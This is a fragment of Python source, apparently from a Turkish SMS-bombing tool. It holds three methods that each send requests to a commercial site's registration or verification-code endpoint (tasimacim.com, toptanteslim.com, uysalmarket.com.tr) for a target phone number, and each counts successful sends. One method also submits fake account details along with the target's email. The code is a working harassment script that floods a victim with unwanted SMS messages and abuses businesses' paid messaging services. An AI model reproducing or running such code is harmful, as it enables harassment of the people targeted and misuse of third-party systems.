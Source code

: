     
    #tasimacim.com
    def Tasimacim(self):
        try:
            url = "https://server.tasimacim.com/requestcode"
            json= {"phone": self.phone, "lang": "tr"}
            r = requests.post(url=url, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> server.tasimacim.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> server.tasimacim.com")
    
    
    #toptanteslim.com
    def ToptanTeslim(self):
        try:
            url = "https://toptanteslim.com:443/Services/V2/MobilServis.aspx"
            headers = {"Content-Type": "application/x-www-form-urlencoded", "Accept": "application/json", "Mode": "no-cors", "U": "e-ticaret", "User-Agent": "eTicDev/1 CFNetwork/1335.0.3.4 Darwin/21.6.0", "Accept-Language": "tr-TR,tr;q=0.9", "Accept-Encoding": "gzip, deflate, br"}
            json={"ADRES": "ZXNlZGtm", "DIL": "tr_TR", "EPOSTA": self.mail, "EPOSTA_BILDIRIM": True, "ILCE": "BA\xc5\x9eAK\xc5\x9eEH\xc4\xb0R", "ISLEM": "KayitOl", "ISTEMCI": "BEABC9B2-A58F-3131-AF46-2FF404F79677", "KIMLIKNO": None, "KULLANICI_ADI": "Memati", "KULLANICI_SOYADI": "Bas", "PARA_BIRIMI": "TL", "PAROLA": "312C6383DE1465D08F635B6121C1F9B4", "POSTAKODU": "377777", "SEHIR": "\xc4\xb0STANBUL", "SEMT": "BA\xc5\x9eAK\xc5\x9eEH\xc4\xb0R MAH.", "SMS_BILDIRIM": True, "TELEFON": self.phone, "TICARI_UNVAN": "kdkd", "ULKE_ID": 1105, "VERGI_DAIRESI": "sjje", "VERGI_NU": ""}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["Durum"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> toptanteslim.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> toptanteslim.com")


    #uysalmarket.com.tr
    def Uysal(self):
        try:
            url = "https://api.uysalmarket.com.tr:443/api/mobile-users/send-register-sms"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "UM Uysal Online Market/1.0.15 (team.clevel.uysalmarket; build:1; iOS 15.8.0) Alamofire/5.4.1", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Connection": "close"}
            json={"phone_number": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.uysalmarket.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.uysalmarket.com.tr")
    